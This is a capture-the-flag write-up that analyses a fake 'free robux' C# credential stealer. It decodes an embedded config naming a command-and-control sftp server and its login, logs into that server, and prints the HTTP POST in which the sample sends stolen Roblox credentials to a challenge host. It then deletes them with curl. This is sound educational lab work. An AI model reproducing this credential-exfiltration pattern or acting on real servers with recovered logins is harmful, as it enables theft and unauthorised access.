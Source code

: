 # Write up for scriptkid

## Overview

For this challenge we are trying to find four flags from a malicious C# file purporting to give free robux. 
This challenge involves a C# decompiler and C2 (Command and Control) server.

## Solution

### Flag 1

We can pull out the plaintext strings from "not_malware.dll" using the command:
```
strings -e l .\not_malware.dll
```
From there, you find a token that looks like it's encoded in base64 (due to the "=" at the end). Decoding:
```
ewogICJjMl9zZXJ2ZXIiOiAic2Z0cDovL3NjcmlwdGtpZC5jdGYtbGVhZ2Uub3N1c2VjLm9yZyIsCiAgInBvcnQiOiAxMzA0LAogICJ1c2Vyb
mFtZSI6ICJyZWFsaXR5c3VyZiIsCiAgInBhc3N3b3JkIjogIm9zdXtkMG50X3N0MHIzX3kwdXJfczNjcjN0c19sMWszX3RoMXN9Igp9ICA=
```
we get:
```
{
  "c2_server": "sftp://scriptkid.ctf-league.osusec.org",
  "port": 1304,
  "username": "realitysurf",
  "password": "osu{d0nt_st0r3_y0ur_s3cr3ts_l1k3_th1s}"
}
```
This gets us the first flag and the C2 server.

### Flag 2

Next we can log into the C2 server with sftp using the command:
```
sftp -P 1304 realitysurf@ctf-league.osusec.org
```
and use the password found in the token.
From there we can cd into the ftp folder and use:
```
get flag.txt Downloads
```
to transfer the file to your downloads folder.
The 2nd flag is in that file

### Flag 3

For flag three, we start by running a packet sniffer, like wireshark.
From there, running "robux_generator.exe" (hopefully in a sandboxed VM), and then inputting false roblox credentials we see an http POST is being sent.
```
POST /credentials HTTP/1.1
Host: scriptkidrev.ctf-league.osusec.org
Content-Type: application/json; charset=utf-8
Content-Length: 88

{"Username":"victim_name","Password":"example_password","Secret":"osu{wa1t_1m_g0at3d?}"} 
```
This post contains flag 3

### Flag 4

Going back to the flavor text of the challenge, we want to delete Timmy's credentials from the server. 
Using the destination URL of the the HTTP POST, we have the server containing Timmy's credentials. Thus by running:
```
curl -X "DELETE" http://scriptkidrev.ctf-league.osusec.org/credentials OK
```
we delete Timmy's credentials from the server. The server response contains the final flag.






